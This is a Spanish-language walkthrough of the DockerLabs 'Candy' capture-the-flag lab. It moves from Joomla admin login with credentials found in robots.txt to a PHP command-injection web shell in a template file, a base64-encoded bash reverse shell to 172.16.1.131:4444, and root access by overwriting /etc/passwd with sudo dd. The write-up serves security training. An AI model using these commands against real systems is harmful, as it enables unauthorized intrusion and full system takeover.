

# Maquina Candy - DockerLabs.es



Verificar que la maquina este desplegada correctamente

<!-- ![[Pasted image 20240830153901.png]] -->


Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

<!-- ![[Pasted image 20240830153935.png]] -->


A continuación, realizamos un escaneo de la IP utilizando Nmap.

<!-- ![[Pasted image 20240830154023.png]] -->


Observamos que el puerto 80 está abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

<!-- ![[Pasted image 20240830154200.png]] -->


Observamos que el sistema está ejecutando Apache 2.4.58 y que alberga un sitio web montado con Joomla, un sistema de gestión de contenido (CMS). Además, encontramos un archivo `robots.txt`, que es un archivo estándar utilizado por los sitios web para indicar a los motores de búsqueda qué partes del sitio no deben ser indexadas.

Si realizamos una pequeña visualización con `whatweb`, obtendremos la siguiente información:

<!-- ![[Pasted image 20240830154623.png]] -->


Y confirmamos que el sitio está montado con Joomla.

Ahora accederemos al sitio web a través del navegador para explorar y ver qué encontramos.

<!-- ![[Pasted image 20240830154401.png]] -->


Si accedemos a la ruta `/robots.txt`, encontraremos el siguiente contenido:

<!-- ![[Pasted image 20240830154820.png]] -->


Si observamos detenidamente el contenido del archivo `robots.txt`, encontraremos posibles credenciales que alguien dejó allí. Además, veremos una ruta llamada `/un_caramelo`. Si accedemos a esa ruta, encontraremos lo siguiente:

<!-- ![[Pasted image 20240830154916.png]] -->


Si analizamos el código fuente de la página en la ruta `/un_caramelo`, encontraremos lo siguiente:

<!-- ![[Pasted image 20240830154945.png]] -->


Parece que las posibles credenciales encontradas en la ruta `/un_caramelo` son las mismas que las que descubrimos anteriormente.

En el código fuente, encontramos una cadena en Base64: `c2FubHVpczEyMzQ1`. Al decodificarla, obtenemos el siguiente resultado: `sanluis12345`.

<!-- ![[Pasted image 20240830155116.png]] -->


Recuerda que en el archivo `robots.txt` encontramos una ruta llamada `/administrator`. Si accedemos a esa ruta, veremos lo siguiente:

<!-- ![[Pasted image 20240830155305.png]] -->


Ahora intentaremos iniciar sesión utilizando las credenciales encontradas anteriormente:

- **Nombre de usuario:** admin
- **Contraseña:** sanluis12345

¡Y listo! Hemos logrado iniciar sesión con éxito.

<!-- ![[Pasted image 20240830155409.png]] -->


Una vez dentro del panel de administración de Joomla, nuestro objetivo es encontrar una forma de acceder al servidor o buscar una vulnerabilidad de ejecución remota de código (RCE).

Se me ocurre una posible solución:

1. **En el menú de administración, selecciona** "System".
2. **Luego, haz clic en** "Site Templates".

Esto nos llevará a la sección de plantillas del sitio, donde podríamos buscar vulnerabilidades que nos permitan cargar archivos o ejecutar código en el servidor.

<!-- ![[Pasted image 20240830155546.png]] -->


Luego, ingresaré al template "Cassiopeia Details and Files".

Aquí, podríamos explorar opciones para modificar o cargar archivos que podrían llevar a una explotación de vulnerabilidades, como la posibilidad de ejecutar código en el servidor.

<!-- ![[Pasted image 20240830155608.png]] -->


Una vez dentro, veremos que podemos editar los archivos del template. En este caso, me centraré en el archivo `index.php`.

Esto nos permitirá modificar o inyectar código en el archivo `index.php`, lo que podría ayudar a encontrar una vulnerabilidad o a obtener acceso adicional al servidor.

<!-- ![[Pasted image 20240830155656.png]] -->


Ahora realizaré una pequeña inyección de código PHP malicioso en el archivo `index.php`, con el objetivo de ejecutar comandos a través de un parámetro llamado `shadow`. (Como alternativa, también podríamos insertar directamente una reverse shell).

Después, haremos clic en el botón de "Save" para guardar los cambios.

<!-- ![[Pasted image 20240830160557.png]] -->


Ahora, si accedemos a la página principal y enviamos un comando a través del parámetro `shadow`, por ejemplo:

`http://172.17.0.2/?shadow=cat%20/etc/passwd`

Veremos el contenido del archivo `/etc/passwd`, lo que confirma que la inyección de código PHP está funcionando correctamente y nos permite ejecutar comandos en el servidor.

<!-- ![[Pasted image 20240830160644.png]] -->


Para visualizar mejor la salida, podemos ver el código fuente de la página. Esto nos permitirá observar el resultado de la ejecución del comando y confirmar que la inyección de código está funcionando correctamente.

Para hacerlo, abre el código fuente de la página en tu navegador, y busca el contenido generado por el parámetro `shadow` para verificar la salida del comando ejecutado.

<!-- ![[Pasted image 20240830160722.png]] -->


Perfecto, ahora que tenemos la capacidad de ejecutar comandos, procederemos a enviar una reverse shell a nuestra máquina atacante.

Primero, nos podremos a la escucha en nuestra maquina atacante utilizando netcat de la siguiente manera:

`nc -nvlp 4444`

<!-- ![[Pasted image 20240830163913.png]] -->


Luego, crearemos una reverse shell y la convertiremos a Base64 usando el siguiente comando:

`echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64`

Esto generará una cadena en Base64 como la siguiente:

`c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`

Ahora, inyectaremos esta cadena en el parámetro `shadow` de la siguiente manera:

`http://172.17.0.2/?shadow=echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo= | base64 -d | bash`

Esto decodificará la reverse shell y la ejecutará en el servidor, estableciendo una conexión con nuestra máquina atacante en la IP `172.16.1.131` y el puerto `4444`.

<!-- ![[Pasted image 20240830161001.png]] -->


Ahora, en el parámetro `shadow`, enviaremos nuestra inyección con el siguiente formato:
`http://172.17.0.2/?shadow=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=%22%20|base64%20-d%20|bash`

Con esto, conseguimos establecer una reverse shell y obtener acceso al servidor.

<!-- ![[Pasted image 20240830161153.png]] -->


## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si realizamos una búsqueda de archivos `.txt`, encontraremos uno especialmente curioso en la ruta `/var/backups/hidden/otro_caramelo.txt`.

<!-- ![[Pasted image 20240830161528.png]] -->


<!-- ![[Pasted image 20240830161555.png]] -->


Si ejecutamos un `cat` en el archivo `/var/backups/hidden/otro_caramelo.txt`, veremos que contiene las credenciales de un usuario llamado `luisillo`.

<!-- ![[Pasted image 20240830161730.png]] -->


Si vemos el `/etc/passwd`, veremos que existe un usuario llamado `luisillo`

<!-- ![[Pasted image 20240830161804.png]] -->


Ahora intentaremos iniciar sesión con el usuario `luisillo` utilizando la contraseña `luisillosuperpassword` para verificar si tenemos acceso.

<!-- ![[Pasted image 20240830161925.png]] -->


¡Hemos logrado iniciar sesión con éxito!

Ahora, al ejecutar `sudo -l` con el usuario `luisillo`, veremos que podemos ejecutar el binario `/bin/dd` sin necesidad de proporcionar una contraseña de `root`.

<!-- ![[Pasted image 20240830162012.png]] -->


Si investigamos un poco veremos lo siguiente y todo lo que podemos hacer con estos permisos en dicho binario

<!-- ![[Pasted image 20240830162105.png]] -->


Ahora, con estos permisos, podemos realizar varias acciones, incluyendo modificar el archivo `/etc/passwd` para inyectar una contraseña para el usuario "root". Esto nos permitirá acceder al sistema como "root" con la nueva contraseña que configuraremos.

Primero, realizaremos una copia de seguridad del archivo `/etc/passwd` existente con el siguiente comando:

`cat /etc/passwd > passwdBackup`

<!-- ![[Pasted image 20240830162353.png]] -->


Una vez hecho, crearemos una contraseña utilizando `openssl` de la siguiente manera

`openssl passwd` y luego ingresamos una contraseña que nosotros querramos 2 veces para verificar...

<!-- ![[Pasted image 20240830162455.png]] -->


Ahora copiamos ese hash que nos devolvió y lo pegamos el archivo `passwdBackup` de la siguiente manera

Quitamos la letra "x" que tenemos en "root:x" y la sustituimos por el hash que copiamos antes.

<!-- ![[Pasted image 20240830162637.png]] -->


Una vez realizada esta modificación, guardamos los cambios en el archivo.

<!-- ![[Pasted image 20240830162723.png]] -->


Aprovecharemos los permisos del binario `/bin/dd` para sobreescribir el archivo `/etc/passwd` original con el archivo `passwdBackup` que editamos. Lo haremos de la siguiente manera:

```
cat passwdBackup | sudo /bin/dd of=/etc/passwd
```

Y vemos que sucedió algo...

<!-- ![[Pasted image 20240830162958.png]] -->


Si revisamos el archivo `/etc/passwd`, notaremos que se ha editado exitosamente.

<!-- ![[Pasted image 20240830163036.png]] -->


Ahora intentaremos iniciar sesión como `root` utilizando la contraseña que creamos y cuyo hash generamos previamente con `openssl`.

<!-- ![[Pasted image 20240830163143.png]] -->


Y ahora somos root!
